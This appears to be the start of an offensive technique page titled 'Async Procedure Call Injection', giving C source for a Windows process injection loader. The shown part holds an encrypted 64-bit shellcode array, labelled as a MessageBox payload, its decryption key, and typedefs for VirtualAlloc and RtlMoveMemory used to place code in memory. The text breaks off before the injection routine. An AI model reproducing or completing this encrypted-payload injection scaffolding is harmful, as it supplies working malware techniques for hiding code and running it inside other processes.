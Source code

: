 # Async Procedure Call Injection

<pre class="language-c"><code class="lang-c"><strong>#include &#x3C;winternl.h>
</strong>#include &#x3C;windows.h>
#include &#x3C;stdio.h>
#include &#x3C;stdlib.h>
#include &#x3C;string.h>
#include &#x3C;tlhelp32.h>
#include &#x3C;wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

// MessageBox shellcode - 64-bit
unsigned char payload[] = { 0xbe, 0x81, 0x8f, 0x19, 0xb1, 0xb1, 0x24, 0xda, 0x48, 0xba, 0x60, 0x51, 0xed, 0xa9, 0x12, 0x60, 0x25, 0xb1, 0x38, 0x65, 0x55, 0x9b, 0xae, 0x50, 0xc4, 0x07, 0x3a, 0x50, 0x80, 0xee, 0x16, 0xe8, 0xfd, 0x96, 0xd5, 0x1e, 0x3c, 0x13, 0x21, 0x84, 0xce, 0xf0, 0x1d, 0xe5, 0xab, 0x20, 0x24, 0x54, 0x6e, 0xcf, 0xd2, 0x09, 0x2a, 0xa8, 0x40, 0x31, 0xa6, 0xa1, 0x7a, 0x85, 0xae, 0xb1, 0x98, 0x87, 0x71, 0x06, 0xa5, 0xa0, 0x87, 0x71, 0x1c, 0x8c, 0xe5, 0xee, 0xdb, 0xcd, 0xad, 0xf2, 0xdf, 0x62, 0x36, 0xab, 0x8e, 0xe0, 0x4e, 0x5f, 0xff, 0xa4, 0xd0, 0x79, 0x44, 0x41, 0xb2, 0x64, 0xa7, 0x24, 0x36, 0xe3, 0x10, 0x93, 0xdc, 0xd8, 0xea, 0xfd, 0x54, 0x4b, 0xa1, 0x95, 0x30, 0x5d, 0x0d, 0xff, 0x92, 0xd1, 0xc7, 0x0e, 0xb4, 0x96, 0xf5, 0x9f, 0x2d, 0x9a, 0x7c, 0x9c, 0x72, 0xeb, 0x7d, 0xec, 0x87, 0x15, 0x5b, 0xf8, 0x31, 0x3c, 0xa0, 0x81, 0xf6, 0xb8, 0x11, 0xc7, 0x82, 0x44, 0xda, 0xa2, 0xd5, 0x2e, 0xb1, 0x97, 0x74, 0x03, 0x22, 0xaa, 0xfb, 0x23, 0x14, 0xe9, 0x64, 0x77, 0xf9, 0x0c, 0x87, 0xbe, 0x70, 0xf2, 0x04, 0x3d, 0x0d, 0x57, 0xc6, 0xce, 0xbe, 0xc1, 0x79, 0xcb, 0x64, 0x53, 0xc0, 0xa9, 0x85, 0x3e, 0xbe, 0xe2, 0xd0, 0x98, 0x81, 0x56, 0xc8, 0x52, 0x25, 0xf9, 0xb5, 0x79, 0xb6, 0x01, 0xe6, 0xd6, 0x0e, 0x97, 0x2d, 0x74, 0x2f, 0xe1, 0x83, 0x27, 0xdb, 0x6d, 0xa8, 0xe0, 0x72, 0x87, 0xb7, 0x4c, 0x79, 0x9e, 0x28, 0x05, 0xfb, 0x3d, 0x35, 0xd6, 0x0a, 0xcd, 0x49, 0xd2, 0x91, 0xe5, 0x50, 0x8b, 0xe3, 0xd9, 0x3a, 0xd8, 0x3f, 0x48, 0xd0, 0x6c, 0x83, 0xca, 0x6f, 0x19, 0x1f, 0xa1, 0x5f, 0xf8, 0xbc, 0xb3, 0x85, 0x0a, 0xa7, 0x19, 0xc2, 0x66, 0xa8, 0x29, 0xd9, 0x88, 0x18, 0x68, 0x91, 0xd3, 0x94, 0xcb, 0x8a, 0xb0, 0xae, 0x7e, 0x37, 0x47, 0x02, 0x4a, 0x04, 0x81, 0x52, 0x01, 0x3a, 0xee, 0x45, 0xc7, 0xc0, 0x5d, 0x96, 0xce, 0xcb, 0x25, 0x1c, 0x11, 0xfa, 0x1e };
unsigned char key[] = { 0x0b, 0x26, 0xc0, 0x49, 0x14, 0xb4, 0xd5, 0x7d, 0x9a, 0x67, 0xe7, 0xa5, 0xd9, 0xdd, 0xbc, 0x81 };

unsigned int payload_len = sizeof(payload);

// http://undocumented.ntinternals.net/UserMode/Undocumented%20Functions/Executable%20Images/RtlCreateUserThread.html
typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef LPVOID(WINAPI* VirtualAlloc_t)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect);

typedef VOID(WINAPI* RtlMoveMemory_t)(
	VOID UNALIGNED* Destination,
	const VOID UNALIGNED* Source,
	SIZE_T Length);
